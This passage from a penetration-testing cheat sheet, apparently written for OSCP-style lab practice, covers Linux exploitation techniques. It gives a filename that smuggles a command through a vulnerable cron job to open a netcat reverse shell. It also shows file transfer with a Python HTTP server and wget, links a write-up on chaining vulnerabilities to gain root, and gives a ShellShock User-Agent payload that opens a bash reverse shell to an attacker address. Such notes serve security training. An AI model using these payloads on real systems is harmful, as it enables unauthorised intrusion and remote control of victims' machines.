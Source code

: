 * It’s running the file check_attack.php script every 3 minutes. If you’re not familiar with the crontab format, refer to the following link.

* In this example, the file contained code vulnerable to a command injection vulnerability, the code was grabbing the file name under the /uploads directory and using it directly in a dynamic command function:

* Exploit:

* Change to the /var/www/html/uploads directory and create the following file.

```
touch '; nc -c bash 10.10.14.12 3333'
```

* Wait for the cronjob to run and get a shell (set up listener)


<br>

##### Chaining Vulns

* The following link under the privilege escalation section, demonstrates a way to chain 2 vulnerabilities to gain access to a root shell:

* https://github.com/rkhal101/Hack-the-Box-OSCP-Preparation/blob/master/linux-boxes/sunday-writeup-w-o-metasploit.md


<br><br>


### File Transfer

* Start a simple HTTP server on the system where the file is already located:

```
python -m SimpleHTTPServer 9005
```

* Use wget on the system where we want to download file to:

```
wget http://10.10.14.30:9005/test.py
```


<br><br>


### Other Vulnerabilities


#### ShellShock

* Change the User Agent field to the following string. - http://www.fantaghost.com/exploiting-shellshock-getting-reverse-shell

```
() { :;}; bash -i >& /dev/tcp/10.10.14.12/4444 0>&1
```

<br>
